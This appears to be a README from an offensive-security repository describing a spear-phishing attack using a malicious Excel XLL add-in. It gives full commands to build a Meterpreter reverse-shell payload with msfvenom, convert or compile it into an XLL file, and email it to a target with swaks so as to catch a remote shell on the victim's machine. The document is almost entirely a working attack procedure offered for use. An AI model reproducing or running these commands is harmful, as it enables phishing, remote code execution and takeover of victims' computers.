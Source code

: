 # Spear Phish with XLL file

## STEPS:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=MY_IP LPORT=MY_PORT -f dll > pwn.dll (Create a .dll file)

## Then convert that .dll file to .xll with a python script (Will provide the script in this folder)

    python3 dll2xll.py (DON'T FORGET TO EDIT THE SCRIPT WITHIN TO INSERT YOUR FILE YOU WANT TO TARGET)

    swaks --to TARGET@DOMAIN.LOCAL --from MYSELF@TESTMAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --attach @pwn.xll --server TARGET_IP --port 25 (Send the malicious file to our target to catch the reverse shell)

## ALTERNATE METHOD WITHOUT METASPLOIT

### Take the xllexploit.c script within this folder and edit the script accordingly

    x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll xllexploit.c -luser32 (Compile the xllexploit.c file to an .xll file. Make sure you set the right command within the .c file!)

    swaks --to TARGET@DOMAIN.LOCAL --from MYSELF@TESTMAIL.COM --header "Subject: WHATEVER" --body "WHATEVER" --attach @shell.xll --server TARGET_IP --port 25 (Send the malicious file to our target to catch the reverse shell)
